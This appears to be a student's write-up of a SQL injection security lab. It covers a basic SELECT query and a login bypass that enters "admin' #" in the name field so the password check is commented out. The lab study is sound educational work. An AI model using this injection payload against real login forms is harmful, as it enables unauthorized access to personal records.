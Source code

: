 # SQL Injection Attack Lab

## Task 1: Get Familiar with SQL Statements

To print all the profile information of the employee Alice, we need to select
everything from the table credential, where the column 'Name' is equal to
'Alice'. This can be achieved with the following query:

```sql
SELECT * FROM credential WHERE Name='Alice';
```

![task1_1](task1_1.png)

## Task 2: SQL Injection Attack on SELECT Statement

### Task 2.1: SQL Injection Attack from webpage

To perform this attack, our strategy will be to set the name to admin, and
comment out the rest of the query so that the password never gets checked.
To do this, we enter in the name input field *admin' #*, so the query becomes:

```sql
SELECT id, name, eid, salary, birth, ssn, address, email,
    nickname, Password
FROM credential
WHERE name= 'admin' #' and Password='$hashed_pwd';
```

Which is equivalent to:

```sql
SELECT id, name, eid, salary, birth, ssn, address, email,
    nickname, Password
FROM credential
WHERE name= 'admin';
```

Note: we use *#* instead of the traditional *--* to comment because, according
to the MySQL reference manual, the *--* comment "requires the second dash to be
followed by at least one whitespace or control character". Now lets test this
in the web page.

![task2_1](task2_1.png)

![task2_2](task2_2.png)
